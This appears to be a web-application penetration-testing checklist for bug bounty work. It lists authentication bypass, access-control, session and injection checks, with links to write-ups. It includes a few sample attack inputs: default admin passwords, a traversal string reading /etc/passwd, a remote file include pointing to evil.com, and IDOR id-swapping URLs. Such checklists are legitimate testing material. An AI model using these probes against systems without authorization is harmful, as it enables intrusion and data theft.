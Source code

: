 * Try submitting default username passwords like "admin":"admin", "admin":"password"
> Bypassing the Authentication
* Forced Browsing: Directly visiting the section of the website which requires authentication. For example, if you have to login at https://spinthehack.in/login to visit https://spinthehack.in/information then if you directly type https://spinthehack.in/information in the address bar of your browser and if you get the access to the website. It is Forced Browsing
* Parameter Modification: Try changing Response which comes from the server for example, if your server response https://spinthehack.in/auth=false then try changing the parameter auth=false to auth=true.
* Session ID Brute Forcing: Maybe sometimes it may work.
* SQL Injection: This method may depend on sql injection vuln.
> Check for Broken Access Control
> Remember Password Checking
* Check that is password being stored in the Cookies or being constantly transferred in every request of the website.
The credentials should only be sent in login phase.
> Check for Directory Traversal Includes File Input
* You have to check each and every input which your website and its directories take from user
> Example
* https://spinthehack.in/getuserprofile.jsp>?item=manager.html https://spinthehack.in/index.php?file=content
* https://spinthehack.in/getuserprofile.jsp?item=.../../../../etc/passwd https://spinthehack.in/index.php?file=https://evil.com/
* [Medium](https://medium.com/@nerdy_researcher/directory-traversal-aka-path-traversal-c76dc7bbe61#:~:text=What%20is%20Directory%20Traversal%3F,and%20sensitive%20operating%20system%20files)
> Checking for Privilege Escalation
* You can check for this at some place like if user can make payment, adding something, sending message to someone
* You can intercept request of two different sets of account and try modifying parameter like grp, id, role if they exist.
* https://shahjerry33.medium.com/privilege-escalation-hello-admin-a53ac14fd388
> Check for Insecure Direct Object Reference
* You can try for getting access to other user data by changing parameter in url.
> Example
* https://spinthehack.in/user?id=1 
* https://spinthehack.in/user?id=2
> Check for Bypassing Session Management Object
> P3, P4 category check
* Set-cookie is secure or not?
* Are cookies transmitted in encrypted manner?
* Make sure cookies are not same every time when you browse website?
> P2, P1 category check
* Sometimes website can leak their token structure/information, try to find it?
* Session ID predictability?
* Brute Forcing Session ID?
> Check for CSRF
> Check for XSS (Stored, Reflected, Blind)
> Check for SQL Injection (Blind, In band, Out band, Error Based etc)
> Check for XML Injection
> Check for File Upload
> Check for Open Redirection/ Client-Side Open Redirection
* https://corneacristian.medium.com/top-25-open-redirect-bug-bounty-reports-5ffe11788794
> Checking for WebSocket's Vulnerabilities
> Check for Code Execution
* https://medium.com/@ashishrohra/remote-code-execution-explaination-writeups-and-tools-a8e4c3362259
> Check for Server-Side Request Forgery
> Check for Command Injection
* https://medium.com/ax1al/os-command-injection-beginners-guide-637e1eed1fde
> Checking for Business Logic Flaws
* https://medium.com/armourinfosec/exploiting-business-logic-vulnerabilities-234f97d6c4c0
> Checking for LDAP injection
* https://medium.com/@hunter_55/ldap-admin-account-bypassed-2cc8b264d66e
> Check for HTTP Parameter Pollution